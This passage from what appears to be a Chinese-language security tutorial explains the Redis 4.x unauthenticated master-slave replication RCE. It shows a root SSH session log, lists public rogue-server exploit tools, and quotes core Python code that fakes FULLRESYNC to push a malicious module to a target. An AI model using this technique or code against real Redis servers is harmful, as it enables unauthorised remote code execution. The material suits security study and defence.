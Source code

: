 ```
root@rose:~# ssh root@192.33.6.144
Last login: Sun Aug  9 23:58:12 2020 from 192.33.6.129
[root@localhost ~]# id
uid=0(root) gid=0(root) groups=0(root)
[root@localhost ~]# uname -a
Linux localhost.localdomain 3.10.0-957.el7.x86_64 #1 SMP Thu Nov 8 23:39:32 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
[root@localhost ~]# exit
logout
Connection to 192.33.6.144 closed.
root@rose:~#
```

### <a class="reference-link" name="%E5%85%AC%E7%BD%91Redis%E6%9C%AA%E6%8E%88%E6%9D%83+%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6RCE"></a>公网Redis未授权+主从复制RCE

以往我们想给 Redis 加个功能或类似事务的东西只能用 Lua 脚本，这个东西没有实现真正的原子性，另外也无法使用底层的 API。

在Reids 4.x之后，Redis新增了模块功能，通过外部拓展，可以实现在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。

Redis模块是动态库，可以在启动时或使用`MODULE LOAD`命令加载到Redis中，那么就可以考虑是否可以向redis服务主机注入恶意so文件并加载执行恶意命令。

有关主从复制RCE：最早由LCBC战队队员Pavel Toporkov在zeronights 2018上介绍的redis 4.x RCE攻击 [15-redis-post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t012bcff574f60d9d02.png)
- 漏洞原理
通过模拟恶意主机作为主节点，在目标机上设置主从复制，然后模拟`FULLRESYNC`执行全量复制操作，将恶意主机上的恶意so文件同步到目标主机并加载以执行系统恶意命令。
- 漏洞利用工具
已公开的比较好用的利用工具：

```
https://github.com/Ridter/redis-rce
https://github.com/n0b0dyCN/redis-rogue-server
https://github.com/LoRexxar/redis-rogue-server
```

[@LoRexxar](https://github.com/LoRexxar)师傅项目中核心利用代码：

```
def handle(self, data):
        resp = ""
        phase = 0
        if "PING" in data:
            resp = "+PONG" + CLRF
            phase = 1
        elif "REPLCONF" in data:
            resp = "+OK" + CLRF
            phase = 2
        elif "PSYNC" in data or "SYNC" in data:
            resp = "+FULLRESYNC " + "Z"*40 + " 1" + CLRF
            resp += "$" + str(len(payload)) + CLRF
            resp = resp.encode()
            resp += payload + CLRF.encode()
            phase = 3
        return resp, phase

    def exp(self):
        cli, addr = self._sock.accept()
        while True:
            data = din(cli, 1024)
            if len(data) == 0:
                break
            resp, phase = self.handle(data)
```